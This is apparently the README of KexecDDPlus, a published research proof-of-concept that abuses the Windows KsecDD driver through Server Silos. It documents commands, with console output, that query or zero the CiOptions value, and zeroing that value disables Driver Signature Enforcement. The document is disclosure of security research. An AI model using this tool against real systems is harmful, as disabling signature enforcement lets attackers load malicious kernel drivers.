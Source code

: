 # KexecDDPlus

This proof-of-concept is the result of a research project that aimed at extending the work of [@floesen_](https://x.com/floesen_) on the KsecDD Windows driver.

It relies on Server Silos to access the KsecDD driver directly, without having to inject code into LSASS. This capability therefore allows it to operate even on systems on which LSA Protection is enabled.

**Tested on:**

- Windows 11 23H2 (OS Build 22631.4317)
- Windows 10 22H2 (OS Build 19045.4894)

## Disclaimer

> [!WARNING]
> This PoC can only be executed **4 times**, before crashing the kernel!

Due to the way the IOCTL `IOCTL_KSEC_IPC_SET_FUNCTION_RETURN` is handled by the KsecDD driver, this PoC can only be used 4 times. At the 5th execution, the driver will attempt to free the user-supplied buffer as if it were allocated in a kernel pool. This operation is invalid, and therefore will cause a Bug Check, *a.k.a.* a Blue Screen. To run the exploit without crashing the kernel, a machine reboot will be required.

## Usage

```console
C:\Temp>KexecDDPlus.exe

 Usage:
     KexecDDPlus.exe <CMD> [<ARGS>]

 Query the CI options value:
     KexecDDPlus.exe queryci
 Set the CI options value to 0:
     KexecDDPlus.exe disableci
 Set the CI options value:
     KexecDDPlus.exe setci <VALUE>
```

**Query the CI options value**

```console
C:\Temp>KexecDDPlus.exe queryci
[+] Silo created and initialized (path is \Silos\764).
[+] Process forked (child pid is 2740).
[+] Connected to child process!
[+] Query CiOptions request OK, current value is: 0x00000006
All done.
```

**Disable Driver Signature Enforcement (DSE) - Set CI options to 0**

```console
C:\Temp>KexecDDPlus.exe disableci
[+] Silo created and initialized (path is \Silos\768).
[+] Process forked (child pid is 5396).
[+] Connected to child process!
[+] Disable CI request OK
All done.
```

**Set the value of CI options**

```console
C:\Temp>KexecDDPlus.exe setci 6
[+] Silo created and initialized (path is \Silos\772).
[+] Process forked (child pid is 9012).
[+] Connected to child process!
[+] Set CiOptions request OK
All done.
```

## Authors

- Clément Labro
    - Mastodon: [https://infosec.exchange/@itm4n](https://infosec.exchange/@itm4n)
    - GitHub: [https://github.com/itm4n](https://github.com/itm4n)
- Romain Melchiorre
    - Twitter/X: [https://x.com/PMa1n](https://x.com/PMa1n)
    - Mastodon: [https://infosec.exchange/@pmain](https://infosec.exchange/@pmain)
    - GitHub: [https://github.com/PMain](https://github.com/PMain)

## Credit

- [@floesen_](https://x.com/floesen_) - [KExecDD](https://github.com/floesen/KExecDD)
- Claudio Contin - [LSASS rings KsecDD ext. 0](https://tierzerosecurity.co.nz/2024/04/29/kexecdd.html)
- James Forshaw ([@tiraniddo](https://infosec.exchange/@tiraniddo)) - [NtObjectManager](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools)
- Lucas Di Martino - [Reversing Windows Container, episode I: Silo](https://blog.quarkslab.com/reversing-windows-container-episode-i-silo.html)
- Lucas Di Martino - [Reversing Windows Container, episode II: Silo to Server Silo](https://blog.quarkslab.com/reversing-windows-container-part-ii-silo-to-server-silo.html)
- Axel Souchet - [@0vercl0k](https://twitter.com/0vercl0k) - [rp++](https://github.com/0vercl0k/rp)